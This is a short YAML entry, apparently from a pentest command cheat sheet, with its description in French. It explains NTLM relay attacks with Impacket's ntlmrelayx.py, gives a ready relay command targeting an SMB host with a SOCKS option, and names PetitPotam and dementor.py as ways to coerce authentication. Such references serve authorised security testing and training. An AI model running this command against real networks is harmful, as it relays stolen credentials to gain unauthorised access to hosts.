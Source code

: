 ```yaml
---
description: |
  Le fichier ntlmrelayx.py d'Impacket effectue des attaques de relais NTLM, en créant un serveur SMB et HTTP et en relayant les informations d'identification vers différents protocoles (SMB, HTTP, LDAP, etc.).

  La commande ci-dessous crée un serveur relais SMB qui cible l'adresse IP 10.10.10.1, ce qui signifie que toutes les informations d'identification reçues par le serveur SMB sont relayées vers cette adresse IP pour tenter de s'authentifier et de créer une connexion de type sock à l'hôte. Pour que le serveur SMB reçoive des informations d'identification à relayer, dementor.py ou Petitpotam peuvent être utilisés pour déclencher une authentification forcée de l'IP ciblée vers un serveur SMB contrôlé par l'attaquant.

  Command Reference:

  	Target IP: 10.10.10.1

command: |
  python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -socks
items:
  - No_Creds
services:
  - NTLM
  - SMB
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
  - https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack
---
```

